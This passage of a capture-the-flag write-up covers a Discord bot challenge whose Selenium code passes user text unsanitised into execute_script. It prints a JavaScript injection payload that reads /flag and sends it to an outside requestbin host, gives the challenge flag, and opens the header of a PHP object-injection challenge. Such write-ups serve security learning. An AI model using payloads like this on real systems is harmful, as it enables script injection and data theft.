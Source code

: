 ```python
async def getCleverResponse (authorID, txt):
	global driver

	try:
		driver.execute_script("window.open('http://localhost/','_blank');")
		windows[authorID] = driver.window_handles[-1]
		switchToAuthorWindow(authorID)
		
		script = "cleverbot.sendAI('{0}')".format (txt)
		driver.execute_script (script)
		while (driver.execute_script ("return cleverbot.aistate") != 0):
			await asyncio.sleep (0.4)
			switchToAuthorWindow(authorID)

		reply = driver.execute_script ("return cleverbot.reply")
		switchToAuthorWindow(authorID)
		driver.execute_script("window.close()")
		driver.switch_to_window(driver.window_handles[0])
		return reply
	except:
		CreateCleverDriver ()
```
The code above is in the getCleverResmpose function in driver.py!
```python
script = "cleverbot.sendAI('{0}')".format (txt)
driver.execute_script (script)
```
If you look in the middle, you can see the code above. The `txt` value is put in the script variable without any verification, and the script is executed using the `execute_script` function.<br><br>

You can trigger XSS in the logic right above.
```python
script = "cleverbot.sendAI('!asdf');fetch('/flag').then(x=>x.text()).then(x=>fetch("URL/?f=" + x));('')"
```
If you manipulate the code and make it as above, the fetch function runs well and you can steal the flag.
```
!asdf');fetch('/flag').then(x=>x.text()).then(x=>fetch("https://384bbb03a643480f7077ff3d9d4b01d5.m.pipedream.net/?f= " +x));('
```
So I wrote the payload as above and sent it to the X-MAS Discord Bot.
![](https://github.com/wjddnjs33/image2/blob/main/스크린샷%202020-12-19%20오전%206.28.33.png?raw=true)
Finally, when I checked the requestbin, I could see the flag came.

`FLAG : X-MAS{0h_J1nk135!!!Why_w0uld_y0u_br34k_our_commun4l_b07???125184ae}`

---
### (WEB) How Brutus stole Christmas
<strong>Challenge Author :</strong> Milkdrop<br>
<strong>Category :</strong> WEB<br>
<strong>Points :</strong> 492<br>
<strong>Solves :</strong> 13<br>
<strong>TL;DR</strong> : Simple PHP Object Injection, WebShell<br>
